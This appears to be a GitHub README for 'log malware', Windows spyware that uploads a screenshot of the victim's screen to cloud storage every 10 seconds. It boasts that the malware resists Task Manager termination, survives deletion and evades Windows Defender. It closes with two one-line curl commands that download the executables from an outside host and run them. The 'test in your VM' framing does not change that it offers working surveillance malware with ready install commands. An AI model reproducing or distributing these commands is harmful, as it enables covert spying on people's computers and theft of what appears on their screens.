 # log malware

#### The log.exe and log_v1.1.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

#### The log_v1.1 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

#### Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

#### Windows defender will not block the malware during installation or stop it while its running.

#### In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt 

#### log_v1.1.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/Log/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`

#### log.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/Log/blob/main/log.exe; START C:/tempapp/log.exe;`
